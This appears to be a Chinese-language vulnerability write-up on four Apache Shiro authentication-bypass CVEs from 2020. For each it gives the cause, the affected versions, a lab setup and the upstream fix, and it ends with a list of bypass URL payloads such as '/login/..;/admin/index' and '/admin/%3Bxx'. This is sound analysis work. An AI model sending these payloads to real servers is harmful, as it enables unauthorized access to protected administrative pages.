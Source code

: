 # Shiro权限绕过

## CVE-2020-1957

**payload：/demo/..;/admin/index**

简单的说因为有；导致截取了分号前面，也就是我们这里的 /demo/.. 然后和 /demo/** 匹配上了。

然后成功绕过shiro，在spring层;被忽视，然后成功匹配路径。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.1</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.1</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.1

- Spring 框架中只使用 Shiro 鉴权

  

### 漏洞修复

https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aR139

将原先的 request.getRequestURI() 替换成了 getContextPath() 、getServletPath() 、getPathInfo() 的组合，这样就能获取我们想要的了，从而避免因为获取差异性而导致绕过，这样就与返回给 springboot 的路径保持一致了。

修复了因为;导致的截断问题。

## CVE-2020-11989

**payload：/admin/%252fxxx**

漏洞产生的原因是因为 Spring 与 Shiro 之间对 url 的处理不同从而导致权限绕过.

简单的说就是shiro层进行了2次url解码，spring层使用了一次。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.2</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.2</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.2
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

在 Shiro 1.5.3 版本中对getPathWithinApplication进行了修改，取消了url 解码的函数.



## CVE-2020-13933

**payload：/admin/%3Bxx**

简单的说就是url解码了之后如果存在；就截断前面的路径并且会将截断的uri最后的 / 进行去除,然后就匹配不到/admin/*,因为是/admin

所以我们只要利用 **/admin/%3Bxx**这样的结构就可以绕过 Shiro 的权限校验。

### 环境搭建

同CVE-2020-11989

pom.xml 中版本修改为1.5.3 

### 利用条件

- Apache Shiro < 1.6.0
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

https://github.com/apache/shiro/commit/dc194fc977ab6cfbf3c1ecb085e2bac5db14af6d

增加了 InvalidRequestFilter 类来对一些特殊情况进行处理，遇到特殊字符直接400，同时增加了 /** 的规则，来防止一些匹配不到的情况。

## CVE-2020-17523

**payload：/admin/%20**

简单的说就是我们传递/admin/%20 url解编之后在进行匹配的时候去除了空格，/admin/ 与/admin/*不匹配造成绕过。

### 漏洞环境

同 CVE-2020-11989 环境

pom.xml 中版本修改为 1.7.0 或及以下即可 

### 利用条件

- Apache Shiro < 1.7.1
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

增加了选项，tokenizeToStringArray 函数中默认不会进行 trim,默认情况下 token = token.trim() 并不会被执行



## 字典

```
/index/..;/admin/index
/login/..;/admin/index
/index/..;/admin/
/login/..;/admin/
/login/..;/json

/admin/%252fxxx
/admin/%3Bxx
/admin/%20
```



>参考：
>
>https://www.yuque.com/tianxiadamutou/zcfd4v/emcdeq
